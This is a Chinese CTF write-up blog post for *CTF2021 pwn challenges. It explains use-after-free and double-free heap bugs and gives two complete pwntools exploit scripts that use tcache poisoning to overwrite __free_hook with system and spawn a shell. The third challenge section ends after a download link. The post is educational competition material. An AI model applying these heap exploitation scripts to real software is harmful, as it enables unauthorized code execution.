<!--yml
category: 未分类
date: 2022-04-26 14:20:10
-->

# 【CTF题解NO.00006】*CTF2021 - pwn - write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/113020297](https://blog.csdn.net/arttnba3/article/details/113020297)

### 【CTF题解NO.00006】*CTF2021 - pwn - write up by arttnba3

C++pwn很好玩，孩子很高兴（因为🧠已经逆炸了）

# 0x00.绪论

质量挺高的比赛，可惜我比较菜Or2…

比赛的时候在我起床之前巨犇队友已经把前面的简单题都出了（膜一膜🐧yyds），后面的题我都没做出来（因为我太菜了QAQ），因此下面的wp基本上都是本地复盘XD

以及老生常谈，csdn的markdown稀烂，建议到这里阅读[github blog addr](https://arttnba3.cn/2021/01/20/CTF-0X03-STARCTF2021-PWN/)

# 0x01.babyheap - Use After Free + tcache poisoning

> 比较白给的签到题

[点击下载-babyheap.zip](https://arttnba3.cn/download/starCTF2021/pwn/babyheap.zip "点击此处下载原题")

惯例的checksec，保护全开（~~基本上大比赛题目都是默认保护全开的~~


拖入IDA进行分析



~~一 览 无 余~~（~~不像后面那个符号表扣光的C++ pwn babygame人都给看傻了~~

程序本身有着**分配、删除、修改、打印堆块内容**的功能，~~给的面面俱到，十分白给~~

漏洞点在于`delete()`函数中free后没有将指针置NULL，**存在 Use After Free漏洞**



在`add()`函数中我们有着16个可用的下标，且分配时会直接覆写原指针，因此我们几乎是可以分配任意个chunk，但是**只允许我们分配fastbin size范围的chunk**



因此若想要泄露libc地址我们需要借助`malloc_consolidate()`将chunk送入small bins中

注意到`leaveYourName()`函数中会调用malloc()分配一个大chunk，因此我们可以通过调用该函数触发`malloc_consolidate()`，将fastbin中chunk送入smallbin， 以泄露libc基址



gdb调试我们可以得知该地址与main_arena间距336，因而我们便可以得到libc基址



**将这个small bin再分配回来我们就能够实现chunk overlapping了，继而就是通过程序的edit功能实现tcache poisoning修改__free_hook为system()后free一个内容为"/bin/sh"的chunk即可get shell**

需要注意的是`edit()`函数中是**从bk的位置开始输入**的，因而我们的fake chunk需要构造到`__free_hook - 8`的位置



故构造exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./pwn') 
e = ELF('./pwn')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6') 

def cmd(command:int):
    p.recvuntil(b'>> ')
    p.sendline(str(command).encode())

def new(index:int, size:int):
    cmd(1)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())
    p.recvuntil(b"input size")
    p.sendline(str(size).encode())

def delete(index:int):
    cmd(2)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())

def edit(index:int, content):
    cmd(3)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())
    p.recvuntil(b"input content")
    p.send(content)

def dump(index:int):
    cmd(4)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())

def leaveYourName(content):
    cmd(5)
    p.recvuntil(b"your name:")
    p.send(content)

def exp():
    for i in range(16):
        new(i, 0x10)

    for i in range(15):
        delete(i)

    leaveYourName(b'arttnba3')

    dump(7)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 336
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.info("Libc addr:" + str(hex(libc_base)))

    for i in range(7):
        new(i, 0x10)
    new(7, 0x60)
    edit(7, p64(0) * 2 + p64(0x21) + p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21))
    delete(10)
    delete(9)
    delete(8)
    edit(7, p64(0) * 2 + p64(0x21) + p64(libc_base + libc.sym['__free_hook'] - 8))

    new(10, 0x10)
    new(9, 0x10)
    edit(9, p64(libc_base + libc.sym['system']))

    edit(7, p64(0) * 2 + p64(0x21) + b"/bin/sh\x00")
    delete(8)
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即得flag



# 0x02.babygame - double free + tcache poisoning

> 设计很巧妙的一道题，以及我差不多是硬调出来的（

[点击下载-babygame.zip](https://arttnba3.cn/download/starCTF2021/pwn/babygame.zip "点击此处下载原题")

惯例的checksec，保护全开


运行一下，大概可以知道这是一个推箱子小游戏



拖入IDA进行分析，~~符号表被扣光，分析出一坨shit~~

> 部分函数、变量名经重命名

在一开始时会分配一个大小为0x500的chunk，**超出了tcache的范围**，在**free时会被直接放入Unsorted Bin中**



在尝试退出时可以输入一个字符串，最后会free掉这个0x500的大chunk，但是后面我们又可以重新将这个chunk申请回来（通过程序的restart功能），**这个时候就会在chunk上残留指向main_arena + 96的指针**



同时，题目中有着打印该chunk的功能，通过free后重新malloc的方式**我们便可以获得libc的基址**



题目的漏洞点在于当你**成功通过一关后再选择下一关之后选择退出便会导致double free**



gdb调试，我们将断点下在`malloc_printerr()`函数处，其上层调用函数为`_int_free(mstate av, mchunkptr p, int have_lock)`，那么我们**便可以从rsi寄存器处获取到被double free的chunk的地址**



其size为`0x61`


~~经历了在IDA中苦苦哀嚎无数小时后~~进行动态调式时观察到对于程序的leave your name功能其会根据输入的长度分配相应大小的堆块




同时观察到**该类型堆块不会被释放，而是会每次输入都申请一次**





那么我们便可以**利用程序的leave your name功能申请任意次数的任意大小的堆块**

同时**题目所给的libc为可以进行tcache double free的2.27版本**


同时**在message功能中我们是可以往0x500的大chunk中写入内容的，而在程序退出时该chunk会被释放**


那么我们便考虑**先泄露libc地址后通过double free构造tcache poisoning进行任意地址写改写__free_hook为system函数后通过message功能创建内容为"/bin/sh"的堆块后退出使得该堆块被释放即可get shell**

最后构造exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./pwn', env={'LD_PRELOAD':'./libc.so.6'}) 
e = ELF('./pwn')
libc = ELF('./libc.so.6')

def double_free():
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline(b"1")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"w")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"s")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"a")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"a")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"d")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"s")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"s")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"w")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"d")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"d")
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline(b"1")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"n")
    p.recvuntil(b"restart?")
    p.sendline(b"y")

def new(content):
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"y")
    p.recvuntil(b"your name:")
    p.sendline(content)
    p.recvuntil(b"restart?")
    p.sendline(b"y")

def leak():
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"n")
    p.recvuntil(b"restart?")
    p.sendline(b"y")
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline(b"l")
    p.recvuntil(b"message:")

def exp():
    leak()
    main_arena = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 96
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    double_free()
    new(b''.ljust(0x50, b'A')) 
    new(p64(libc_base + libc.sym['__free_hook']).ljust(0x50, b'A'))
    new(b''.ljust(0x50, b'A'))
    new(p64(libc_base + libc.sym['system']).ljust(0x50, b'A'))
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline('1')
    p.recvuntil(b"Please input an order:")
    p.sendline(b"m")
    p.sendline(b"/bin/sh\x00")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"n")
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即得flag



> 我本来想通过string类的创建和释放来get shell的，但是没能成功…希望有师傅能告知原因Or2

> 附：一张未完成的对于题目文件中a1的分析图：~~画到一半实在是分析不下去了~~
> 
> 
> 
> 以及题目中有着大量的这样不知所谓的混淆函数…有机会一定要去暴捶出题人（x
> 
> 

# 0x03.babypac

[点击下载-babypac.zip](/download/starCTF2021/pwn/babypac.zip "点击此处下载原题")